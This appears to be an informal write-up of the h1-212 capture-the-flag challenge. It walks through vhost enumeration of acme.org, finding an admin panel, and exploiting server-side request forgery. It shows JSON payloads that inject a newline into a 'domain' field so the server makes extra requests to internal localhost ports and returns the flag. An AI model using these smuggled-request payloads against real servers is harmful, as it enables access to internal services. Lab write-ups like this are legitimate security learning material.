 # h1-212

OK here is my write up 


so first i start brute force and crawl directory to check if possible to get some files there

then i used virtual-host-discovery tool to get all virtual host there 

```
Found: www.acme.org (200)
Found: dev.acme.org (200)
Found: local (200)
Found: localhost (200)
Found: status.acme.org (200)
Found: status (200)
Found: staging.acme.org (200)
Found: staging (200)
Found: development (200)
Found: development.acme.org (200)
Found: uat (200)
Found: uat.acme.org (200)
Found: acme.org (200)
Found: beta (200)
Found: beta.acme.org (200)
Found: secure (200)
Found: secure.acme.org (200)
Found: mobile (200)
Found: mobile.acme.org (200)
Found: 127.0.0.1 (200)
Found: m.acme.org (200)
Found: m (200)
Found: admin (200)
Found: admin.acme.org (200)
Found: old (200)
Found: old.acme.org (200)
Found: v1.acme.org (200)
Found: v1 (200)
Found: v2.acme.org (200)
Found: v2 (200)
Found: v3.acme.org (200)
Found: v3 (200)
Found: alpha (200)
Found: alpha.acme.org (200)
```
so as description said : admin.acme.org this is the one :D 
(An engineer of acme.org launched a new server for a new admin panel)
```
root@ip-172-31-20-83:/home/ubuntu# curl -I http://admin.acme.org
HTTP/1.1 200 OK
Date: Sat, 18 Nov 2017 22:59:11 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: admin=no
Content-Type: text/html; charset=UTF-8
```
next i start get 406 

![image](https://user-images.githubusercontent.com/7364615/32996613-4079913c-cd85-11e7-8b8c-6ba8b8aa1192.png)

so i get some stackoverflow solution which ask to look for good content-type
```
https://stackoverflow.com/questions/14251851/what-is-406-not-acceptable-response-in-http
```

brute force all type possible get that application/json is the one :d

![image](https://user-images.githubusercontent.com/7364615/32996624-64af4498-cd85-11e7-8b15-b046b0d6b4de.png)


THEN START PLAY WITH JSON DATA 

![image](https://user-images.githubusercontent.com/7364615/32996628-6e864b56-cd85-11e7-9749-30779d47e516.png)

Until fix that output 


And after send domain 
![image](https://user-images.githubusercontent.com/7364615/32996636-7dab1698-cd85-11e7-8a26-a8c27b0cfab0.png)

so when domain is valid we get data base64

![image](https://user-images.githubusercontent.com/7364615/32996640-8aa5e800-cd85-11e7-80e4-04356e646d68.png)

which is the source code of that website

:D its look ssrf here guys :D


lets bypass .com and 212 containe

after read alot from here (thx orange ) and other article 
https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf 

i notice i can use "feed line" to make 2 request or more !!

and then make brute force wen found some open port 22,1337
```
{"domain":"localhost:1337/flag\n212.test.com"}  
{"domain":"localhost/server-status\n212.test.com"} 
```

![image](https://user-images.githubusercontent.com/7364615/33026321-766f86f8-ce10-11e7-9fdd-544673744e51.png)


with this data it will increment id+2

id+1 for localhost and id+2 for 212.test.com


So just get request of the id+1 get make us read the flag 

then base64 flag data and pwn it :D

1337 : leet port :D

![image](https://user-images.githubusercontent.com/7364615/33025984-b0f7e3f2-ce0f-11e7-8513-ee303f78c264.png)

FLAG: CF,2dsV\/]fRAYQ.TDEp`w"M(%mU;p9+9FD{Z48X*Jtt{%vS($g7\S):f%=P[Y@nka=<tqhnF<aq=K5:BC@Sb*{[%z"+@yPb/nfFna<e$hv{p8r2[vMMF52y:z/Dh;{6


Amazing ctf :D
